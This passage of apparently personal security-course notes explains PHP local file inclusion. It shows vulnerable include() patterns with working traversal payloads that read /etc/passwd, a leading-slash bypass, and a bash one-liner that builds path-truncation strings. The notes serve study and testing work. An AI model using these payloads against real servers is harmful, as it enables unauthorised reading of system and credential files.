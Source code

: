 #### Directory prefix

But there can be additions like the language directory here:

```php
include("./languages/" . $_GET['language']);
```

Then can use the trick like so:

```
../../../../etc/passwd
```

```
http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/passwd
```

On windows:

```
c:\Windows\System32\Drivers\etc\hosts
```

#### Filename prefix

```php
include("lang_" . $_GET['language']);
```

The fix is to try `/` first. Like so: `http://<SERVER_IP>:<PORT>/index.php?language=/../../../etc/passwd`

**Note**: This may not always work

#### Appended Extensions

**Path truncation**

```php
include($_GET['language'] . ".php");
```

So if we search for `/etc/passwd` then `/etc/passwd.php` will be searched for.

In earlier versions of PHP, defined strings have a maximum length of 4096 characters, likely due to the limitation of 32-bit systems. If a longer string is passed, it will simply be truncated, and any characters after the maximum length will be ignored.

PHP, and Linux systems in general, also disregard multiple slashes in the path (e.g. ////etc/passwd is the same as /etc/passwd). Similarly, a current directory shortcut (.) in the middle of the path would also be disregarded (e.g. /etc/./passwd).

If we combine both of these PHP limitations together, we can create very long strings that evaluate to a correct path. Example: `?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]`&#x20;



Can use bash for this

```bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```
